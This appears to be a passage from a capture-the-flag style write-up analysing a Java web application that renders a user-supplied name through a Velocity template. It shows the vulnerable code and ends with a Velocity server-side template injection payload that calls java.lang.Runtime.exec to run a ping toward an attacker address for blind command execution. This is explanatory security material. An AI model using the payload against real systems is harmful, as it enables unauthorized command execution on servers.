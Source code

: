 ```java
			t.merge(context, writer);
			template = writer.toString();

		} catch (ParseException e) {
			e.printStackTrace();
		}

		return template;
	}
```

At route `/` a name parameter is expected, then a file (`/app/src/main/resources/templates/index.html`) is loaded and used as a velocity template.
Then the said template is rendered and returned in the response.

```java
public static String readFileToString(String filePath, String replacement) throws IOException {
        StringBuilder content = new StringBuilder();
        BufferedReader bufferedReader = null;

        try {
            bufferedReader = new BufferedReader(new FileReader(filePath));
            String line;
            
            while ((line = bufferedReader.readLine()) != null) {
                line = line.replace("TEXT", replacement);
                content.append(line);
                content.append("\n");
            }
        } finally {
            if (bufferedReader != null) {
                try {
                    bufferedReader.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }

        return content.toString();
    }
```

The `readFileToString` function is used to read a file and replace some text with a defined parameter.

```
#set($engine="")
#set($proc=$engine.getClass().forName("java.lang.Runtime").getRuntime().exec("ping <your ip>"))
#set($null=$proc.waitFor())
${{null}}
```

We can use the above payload to achieve blind command injection via SSTI.